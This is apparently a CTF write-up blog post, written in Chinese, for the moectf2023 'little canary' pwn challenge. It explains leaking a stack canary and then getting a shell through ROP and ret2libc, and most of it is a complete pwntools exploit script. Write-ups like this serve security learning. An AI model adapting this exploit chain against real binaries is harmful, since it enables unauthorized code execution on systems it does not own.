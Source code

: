 ```yaml
---
title: moectf2023 - little canary
date: 2023/9/25 12:00:00
tags:
    - noob
excerpt: 通过覆盖字符数组获取Canary值，利用ROP和ret2libc进行漏洞利用，最终获得shell。
---
```


## 文件分析

下载`pwn`, NX on, PIE off, Canary on, RELRO partial  
ghidra分析为64位程序

## 解题思路

先溢出字符数组读取Canary的值

{% note warning fa-exclamation %}
Canary的第一字节是\0，需要先覆盖才能打印出后面内容，之后还要还原
{% endnote %}

获取canary的值后就可以考虑rop  
由于不存在后门且开了NX，所以后面根据ret2libc做即可

## EXPLOIT

```python
import LibcSearcher
from pwn import *

sh = remote('localhost', 43655)

# payload 1
sh.sendline(b'0'*68 + b'FLAG') # override the canary first byte '\0' with '\n'

sh.recvuntil(b'FLAG\n') # skip
canary = u64(b'\0' + sh.recvline()[:7]) # restore the overrided '\0'

elf = ELF('canary')
putsPlt = elf.plt['puts']
putsGot = elf.got['puts']
popRdiAddr = 0x00401343
vulnAddr = elf.symbols['vuln']

# payload 2
sh.sendline(b'0'*72 + p64(canary) + b'0'*8 + p64(popRdiAddr) + p64(putsGot) + p64(putsPlt) + p64(vulnAddr))

sh.recvline() # skip
putsGotAddr = u64(sh.recvline()[-7:-1] + b'\0\0')
libc = LibcSearcher.LibcSearcher("puts", putsGotAddr & 0xfff)
libcBase = putsGotAddr - libc.dump("puts")
shstrAddr = libcBase + libc.dump("str_bin_sh")
systemAddr = libcBase + libc.dump("system")
retAddr = 0x004012b9

# payload 3
sh.sendline(b'skip this input')

# payload 4
sh.sendline(b'0'*72 + p64(canary) + b'0'*8 + p64(popRdiAddr) + p64(shstrAddr) + p64(retAddr) + p64(systemAddr))

sh.interactive()
```

Done.
